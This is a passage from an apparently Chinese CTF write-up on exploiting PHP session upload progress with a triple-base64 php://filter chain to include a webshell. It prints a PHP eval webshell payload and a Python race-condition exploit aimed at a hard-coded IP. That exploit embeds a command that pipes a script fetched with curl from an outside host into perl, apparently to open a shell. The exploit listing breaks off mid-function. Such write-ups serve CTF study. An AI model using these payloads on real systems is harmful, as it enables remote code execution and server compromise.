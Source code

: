 `upload_progress_ZZ`一共是18个字符，但是由于base64_decode跳过了`_`，所以是剩下16个字符，解码一次之后是12个字符，又因为12个字符中只有4个在范围内，所以再次解码之后变为了3个字符，这三个字符都不在范围内，所以解码之后为空字符串。

这里需要注意的是我们在`upload_progress_`前缀后面扩展了两位是`ZZ`，这个`ZZ`的选择也是非常有讲究的，必须保证每一次的的base64解码之后的可接受字符个数都必须是4的整数倍,否则就会吞掉后面的payload。

举个例子`upload_progress_AA`就是不满足条件的，因为一次base64解码之后变为了

```
string(12) "��hi�k�
޲�"
```

可接受字符变为了3个，不是4的倍数，那么在下一次进行base64解码的时候，一定会吞掉后面的一位，导致payload部分被破坏掉。

所以最后控制SESSION的key值为：

```php
"upload_progress_ZZ".base64_encode(base64_encode(base64_encode('@<?php eval($_GET[1]);')));
```

然后进行三次的base_64decode，就会去掉`upload_progress_`,只剩下`@<?php eval($_GET[1]);`

最后附上orange的exp:

```python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool



HOST = 'http://54.250.246.238/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close', 
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php `curl orange.tw/w/bc.pl|perl -`;?>'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        print xxx
        break

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + xxx + 'Z'
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
```